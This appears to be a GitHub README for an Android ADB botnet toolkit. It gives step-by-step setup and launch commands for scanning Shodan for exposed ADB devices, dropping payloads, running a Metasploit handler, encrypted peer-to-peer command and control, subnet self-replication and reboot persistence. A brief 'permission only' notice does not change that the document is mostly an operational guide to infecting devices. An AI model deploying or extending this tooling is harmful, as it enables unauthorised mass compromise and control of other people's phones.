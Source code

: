 # EVA ADB Botnet  

**Purpose:** Ethical cybersecurity research, mesh-based botnet exploration, long-term persistent control of Android devices via open ADB, and encrypted peer-to-peer botnet mesh command.

---

## Getting Started (Clone + Setup)

To install EVA on any Kali Linux system using your GitHub SSH key:

### 1. Clone the private repository using SSH

```bash
git clone https://github.com/ekomsSavior/Eva_adb_botnet.git
cd Eva_adb_botnet
```

Now install dependencies:

```bash
sudo apt update && sudo apt install -y android-tools-adb metasploit-framework android-tools-adb python3-pip
pip3 install pycryptodome requests
mkdir -p bots
```

##optional adb install if youre having issues with the above adb install: 
Use Google’s ADB installer
Manual method (safe + universal):

```bash
sudo mkdir -p /opt/android-platform-tools
cd /opt/android-platform-tools
sudo wget https://dl.google.com/android/repository/platform-tools-latest-linux.zip
sudo unzip platform-tools-latest-linux.zip
sudo mv platform-tools/* .
sudo rm -r platform-tools platform-tools-latest-linux.zip
```

Then add ADB to your PATH permanently:
```bash
echo 'export PATH=$PATH:/opt/android-platform-tools' >> ~/.bashrc
source ~/.bashrc
```
Then download and install `ngrok`:

```bash
wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-stable-linux-amd64.zip
unzip ngrok-stable-linux-amd64.zip
chmod +x ngrok
```




You should now have:
- All EVA scripts in this folder (`Eva_adb_botnet/`)
- A `bots/` directory for bot state files
- An executable `ngrok` in the same folder

---

##  One-Time Setup (Before Launch)

### 1. Set your Shodan API Key  
Edit `adb_reaper.py` and replace this line with your actual key:

```python
SHODAN_API_KEY = 'YOUR_SHODAN_API_KEY'
```

### 2. Set Payload Path  
In `adb_dropper.py`, make sure this line points to either your APK or `jeangrey_android.py`:

```python
ADB_PAYLOAD = "/root/jeangrey_android.py"
```

### 3. Set AES Encryption Key  
In `jeangrey_crypto.py`, make sure this is a strong 16-byte key:

```python
SECRET_KEY = b'Sixteen byte key'  # Change this before deployment
```

---

##  Full Botnet Launch

From inside the EVA directory:

```bash
python3 EVA_launcher.py
```

This will:
- Scan Shodan for open Android Debug Bridge (ADB) targets
- Drop the payload to each ADB-enabled device
- Start the Metasploit handler in the background
- Deploy `jeangrey_android.py` to infected targets
- Start mesh communication (UDP AES-encrypted)
- Activate replication and persistence features
- Launch the AI trigger engine
- Broadcast EVA Core’s presence across the mesh

---

## 📺 Monitor Bots (Dashboard)

To watch all active bots:

```bash
python3 eva_dashboard.py
```

This will:
- Read each bot's `jeangrey_state.json` inside `bots/`
- Show ID, IP, tags, and last seen timestamp
- Auto-refresh every 3 seconds

---

##  Send Mesh Commands (EVA Core)

```bash
python3 eva_core.py
```

This will:
- Broadcast EVA presence to all bots
- Allow you to send AES-encrypted commands to selected bot IPs
- Schedule execution after a timed delay

Supported commands:
- `scan` – make the bot scan for nearby ADB devices
- `drop` – redeploy the payload
- `report` – return full bot state
- `shutdown` – stop bot process

---

##  Auto-Response Engine (Bot Intelligence)

```bash
python3 eva_ai_trigger.py
```

This makes bots:
- Listen 24/7 for AES mesh commands
- React immediately and autonomously
- Execute mesh-sent tasks like scanning, reporting, or replicating

---

##  Self-Replication + Persistence

Bots will:
- Use `jeangrey_replication.py` to infect subnet ADB targets
- Write `bots/bot_<ip>/jeangrey_state.json` on first run
- Update `last_seen` every 60 seconds

To manually ensure reboot persistence:

```bash
adb push jeangrey_persist.sh /sdcard/Download/
adb shell sh /sdcard/Download/jeangrey_persist.sh
```

This appends a startup line to `~/.bashrc` on the infected Android.

---

##  Bot Management

To rename, retag, or kill bots manually:

```bash
python3 state_editor.py
```

This opens a terminal menu to:
- Rename bot IDs
- Add/remove tags
- View bot JSON
- Permanently delete (💀) rogue nodes

---

## 🧱 Directory Structure (After Setup)

```
Eva_adb_botnet/
├── EVA_launcher.py
├── eva_core.py
├── eva_ai_trigger.py
├── eva_dashboard.py
├── jeangrey_android.py
├── jeangrey_crypto.py
├── jeangrey_mesh.py
├── jeangrey_replication.py
├── jeangrey_tunnel.py
├── jeangrey_persist.sh
├── adb_reaper.py
├── adb_dropper.py
├── metasploit_launcher.py
├── jeangrey_injector.py
├── state_editor.py
├── ngrok
└── bots/
    ├── bot_<ip>/
    │   └── jeangrey_state.json
```

---

## Legal & Ethical Notice

EVA is for:
- Controlled environments only
- that you have permission to test on

**Never deploy EVA on public networks or without permission.**  
Misuse may be illegal.

---

## 🧠 Vision

EVA is not just a botnet — it's a **mesh consciousness**.  
She replicates. She listens. She obeys. 

